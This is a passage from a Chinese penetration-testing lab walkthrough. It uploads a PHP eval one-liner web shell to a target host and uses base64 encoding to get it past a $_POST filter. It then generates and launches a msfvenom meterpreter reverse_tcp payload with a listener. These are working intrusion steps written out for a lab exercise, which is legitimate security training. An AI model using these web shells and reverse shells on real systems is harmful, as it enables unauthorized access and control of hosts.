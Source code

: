 [![](https://p3.ssl.qhimg.com/t01235fbc721c5f146d.png)](https://p3.ssl.qhimg.com/t01235fbc721c5f146d.png)

[![](https://p3.ssl.qhimg.com/t013be8d065b7bc8561.png)](https://p3.ssl.qhimg.com/t013be8d065b7bc8561.png)

8、可以看到shell.php已经被上传上去了，但是提示语法错误，同时蚁剑也返回数据为空，看来一句话上传的有点问题，那就cat查看一下

[![](https://p0.ssl.qhimg.com/t0145d034080a5494b7.png)](https://p0.ssl.qhimg.com/t0145d034080a5494b7.png)

之前：&lt;?php @eval($_POST[‘TeamsSix’]);?&gt;<br>
之后：&lt;?php @eval([‘TeamsSix’]);?&gt;

9、不难发现$_POST被过滤了，那就利用Base64编码后再次上传试试

[![](https://p2.ssl.qhimg.com/t015d624017da1c9bec.png)](https://p2.ssl.qhimg.com/t015d624017da1c9bec.png)

[![](https://p5.ssl.qhimg.com/t01cbaba63d1b89d714.png)](https://p5.ssl.qhimg.com/t01cbaba63d1b89d714.png)

[![](https://p0.ssl.qhimg.com/t01feea620face3cfe5.png)](https://p0.ssl.qhimg.com/t01feea620face3cfe5.png)

echo “PD9waHAgQGV2YWwoJF9QT1NUWydUZWFtc1NpeCddKTs/Pg==” | base64 -d &gt; shell.php

10、此时可以看到一句话已经正常，蚁剑也能够连接成功，此时已经获取到该主机的shell，下一步添加代理

[![](https://p5.ssl.qhimg.com/t015dbc219c259b6086.png)](https://p5.ssl.qhimg.com/t015dbc219c259b6086.png)

### <a name="header-n24"></a>b、设置代理

注：本文中设置代理的方法参考安全客里面tinyfisher用户的一篇文章，其文章地址在本文末尾参考文章处。

1、查看自己的IP地址，并根据自己的IP地址及目标靶机的系统类型生成对应的后门文件

root@kali:~# ifconfig<br>
root@kali:~# msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.1.113 LPORT=6666 SessionCommunicationTimeout=0 SessionExpirationTimeout=0 -f elf &gt;shell.elf

[![](https://p1.ssl.qhimg.com/t011319aea1c0d7af81.png)](https://p1.ssl.qhimg.com/t011319aea1c0d7af81.png)

2、在kali中配置运行监听模块

root@kali:~# msfconsole<br>
msf5 &gt; use exploit/multi/handler<br>
msf5 exploit(multi/handler) &gt; set payload linux/x64/meterpreter/reverse_tcp<br>
msf5 exploit(multi/handler) &gt; set lhost 0.0.0.0<br>
msf5 exploit(multi/handler) &gt; set lport 6666<br>
msf5 exploit(multi/handler) &gt; options<br>
msf5 exploit(multi/handler) &gt; run

[![](https://p3.ssl.qhimg.com/t01913a97effbb957e9.png)](https://p3.ssl.qhimg.com/t01913a97effbb957e9.png)

3、通过蚁剑将shell.elf文件上传到Target1中，并赋予777权限以执行
